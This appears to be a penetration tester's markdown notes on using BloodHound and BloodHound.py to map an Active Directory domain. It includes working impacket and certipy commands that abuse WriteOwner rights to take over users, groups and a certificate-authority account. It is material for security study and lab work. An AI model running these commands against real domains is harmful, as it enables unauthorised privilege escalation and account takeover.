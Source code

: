 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

CLICK RMP ON EDGE -> Help!!!

It will show Abuse commands!!!

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2/Group2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
# User
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'FullControl' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
# Group
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
Now either add own account to target group, or reset target account password 
(Reference this link: https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)

In the particalar example the target user was Cert Authority user, so I could do this:

http://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4
```
certipy-ad shadow auto -u '<user1>@<domain>' -p "<U1 pass>" -account '<User2>' -dc-ip '<IP>' 
```
